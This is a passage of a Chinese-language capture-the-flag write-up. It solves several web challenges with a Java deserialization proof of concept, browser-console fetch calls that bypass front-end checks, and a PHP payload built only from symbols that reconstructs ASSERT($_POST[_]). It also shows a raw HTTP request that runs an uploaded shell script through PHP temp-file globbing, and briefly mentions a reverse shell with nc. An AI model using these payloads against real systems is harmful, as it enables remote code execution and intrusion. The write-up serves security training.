        setFieldValue(dog5,"args",new Object[]{});

        //put触发hash->hashCode
        Map<Dog,Object> hashmap=new HashMap<>();
        hashmap.put(dog5,"aaa");

        //序列化POC
        ByteOutputStream baos=new ByteOutputStream();
        ObjectOutputStream oos=new ObjectOutputStream(baos);
        oos.writeObject(hashmap);
        oos.flush();
        byte[] bytes = Base64.encodeBase64(baos.toByteArray());
        System.out.println(new String(bytes));

        ObjectInputStream bis= new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        bis.readObject();
    }
    //定义一个修改属性值的方法
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
}
```



题目给了堡垒机，我们ssh练上去



然后用nc反弹shell



## **Moe笑传之猜猜爆**

### #前端JS

一个猜数字的界面，只能猜一次，但是好像抓不到包？估计纯前端逻辑，看看js代码



这里发现猜对之后会对flag路径进行post请求，但是这里的话对请求没得验证逻辑，所以直接post请求路由就能拿到flag了

或者也可以在控制台中输出随机数的内容



也可以直接在控制台发送请求

```javascript
fetch('/flag', {method: 'POST'})
    .then(res => res.json())
    .then(data => console.log(data));
```

## **摸金偶遇FLAG，拼尽全力难战胜**

### #前端JS

还是前端的东西，看一下script元素的内容

关注到getProgressBarText函数

```javascript
           function getProgressBarText(style) {
                switch (style) {
                    case 0:
                        return ">>> 等待开始挑战...";
                    case 1:
                        return ">>> 防破译进程加载中...";
                    case 2:
                        return ">>> 正在骇入系统...";
                    case 3:
                        return ">>> 挑战超时";
                    case 4:
                        return `>>> 挑战已终止，正确密码 ${realCode.join("")}`;
                    default:
                        fetch("/verify", {
                            method: "POST",
                            headers: {
                                "Content-Type": "application/json",
                            },
                            body: JSON.stringify({
                                answers: realCode,
                                token: myToken
                            })
                        })
                            .then((response) => response.json())
                            .then((data) => {
                                if (data.correct) {
                                    const flag = data.flag || "无法获取flag";
                                    $(".computerTitle").text(`破译完成，已获取如下权限: ${flag}`);
                                } else {
                                    $(".computerTitle").text(`破译失败: ${data.message || "未知错误"}`);
                                }
                            })
                            .catch((error) => {
                                console.error("Error verifying solution:", error);
                                $(".computerTitle").text("破译完成，但无法获取权限内容");
                            });
                        $(".decode-item-block").show();
                        $(".leftPanel,.inputPanel").hide();
                        return (
                            ">>> 骇入成功" +
                            (limitChallenge ? `，挑战用时：${passedTime} 秒` : "")
                        );
                }
            }
```

向/verify路由发送POST请求，请求体是一个JSON表单，包括正确答案realCode和token，如果data.correct是true就会返回true

然后看到这个函数

```javascript
function generateRandomDigitArray(length) {
      return new Promise((resolve, reject) => {
        fetch(`/get_challenge?count=${length}`)
                .then((response) => {
                  if (!response.ok) {
                    throw new Error(`HTTP error! status: ${response.status}`);
                  }
                  return response.json();
                })
                .then((data) => {
                  if (data.error) {
                    reject(data.error);
                  } else {
                    const real = data.numbers;
                    const guess = Array.from({ length }, () => null);
                    myToken = data.token; // 保存 token 到 myToken
                    resolve({ real, guess });
                  }
                })
                .catch((error) => {
                  console.error("Error fetching challenge data:", error);
                  reject("Failed to fetch challenge data.");
                });
      });
    }
```

向/get_challenge发送GET请求，并返回响应，里面包含我们的真实答案real，以及玩家的输入、token等。

那我们直接向/get_challenge发送GET请求拿到data，然后将data当成请求表单向/verify路由发送POST请求并输出flag

控制台POC

```javascript
(async() => {
    try {
        const count = 9;
        const data = await(await fetch(`/get_challenge?count=${count}`)).json();
        console.log("返回数据：",data);
        const {numbers, token} = data;
        const data2 = await(await fetch('/verify',{
            method: "POST",
            headers: {
                "Content-Type": "application/json",
            },
            body: JSON.stringify({
                answers : numbers,
                token : token
            })
        })).json();
        console.log(data2.flag);
    }catch(err){
        console.error("请求出错",err)
    }
})();
```



## **这是...Webshell？**

### #无数字字母RCE

```php
<?php
highlight_file(__FILE__);
if(isset($_GET['shell'])) {
    $shell = $_GET['shell'];
    if(!preg_match('/[A-Za-z0-9]/is', $_GET['shell'])) {
        eval($shell);
    } else {
        echo "Hacker!";
    }
}
?>
```

很明显了，无数字字母RCE，参考我文章https://wanth3f1ag.top/3025/04/16/%E5%AF%B9%E4%BA%8ERCE%E5%92%8C%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E7%9A%84%E4%B8%80%E7%82%B9%E6%80%BB%E7%BB%93/#eval%E4%B8%AD%E6%97%A0%E6%95%B0%E5%AD%97%E5%AD%97%E6%AF%8DRCE-%E5%9F%BA%E7%A1%80

先构造个`phpinfo()`

```php
$_=[];
$_=''.$_;
$_=$_['!'==' '];
$___=$_;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__=$_;
$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;
$___.=$__;
$___();
```

发现是5.6.40，那就直接打`ASSERT($_POST[_])`

```php
<?php

//构造ASSERT($_POST[_]);
$_=[];
$_=''.$_;//$_变成Array
$_=$_['!'==' '];//利用布尔表达式返回[0]然后取出第一个字符A
$___=$_;//存储A
$__=$_;//操作A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//构造S
$___.=$__;//存储为AS
$___.=$__;//存储为ASS
$__=$_;//初始化为A
$__++;$__++;$__++;$__++;//构造E
$___.=$__;//存储为ASSE
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//构造R
$___.=$__;//存储为ASSER
$__++;$__++;//构造T
$___.=$__;//存储为ASSERT
$____='_';//构造下划线
$__=$_;//初始化为A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//构造P
$____.=$__;//存储为_p
$__=$_;//初始化为A
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;//构造O
$____.=$__;//存储为_PO
$__++;$__++;$__++;$__++;//构造S
$____.=$__;//存储为_POS
$__++;//构造T
$____.=$__;//存储为_POST
$_=$$____;//存储为$_POST
$___($_[_]);//ASSERT($_POST[_])
?>
```

PHP5中，是不支持`($a)()`这种调用方法的，所以异或和取反这些可能打不通

## **这是...Webshell?_revenge**

```php
<?php
highlight_file(__FILE__);

if (isset($_GET['shell'])) {
    $shell = $_GET['shell'];
    if (strlen($shell) > 30) {
        die("error: shell length exceeded");
    }
    if (preg_match("/[A-Za-z0-9_$]/", $shell)) {
        die("error: shell not allowed");
    }
    eval($shell);
}
```

还是低版本的php，这次把自增过滤了，那就只能用p牛讲过的临时文件上传了，这个我文章里也写过https://wanth3f1ag.top/3025/04/16/%E5%AF%B9%E4%BA%8ERCE%E5%92%8C%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E7%9A%84%E4%B8%80%E7%82%B9%E6%80%BB%E7%BB%93/#eval%E4%B8%AD%E6%97%A0%E6%95%B0%E5%AD%97%E5%AD%97%E6%AF%8DRCE-%E5%86%B2%E7%A0%B4%E9%99%90%E5%88%B6

```http
POST /?shell=?><?=`.%20/???/????????[@-[]`;?> HTTP/1.1
Host: 127.0.0.1:10596
Content-Length: 291
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="139", "Not;A=Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQedal20qSazBFA6b
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryQedal20qSazBFA6b
Content-Disposition: form-data; name="file"; filename="1.txt"
Content-Type: text/plain

#!/bin/sh
ls
------WebKitFormBoundaryQedal20qSazBFA6b
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryQedal20qSazBFA6b--

```



终于做完了
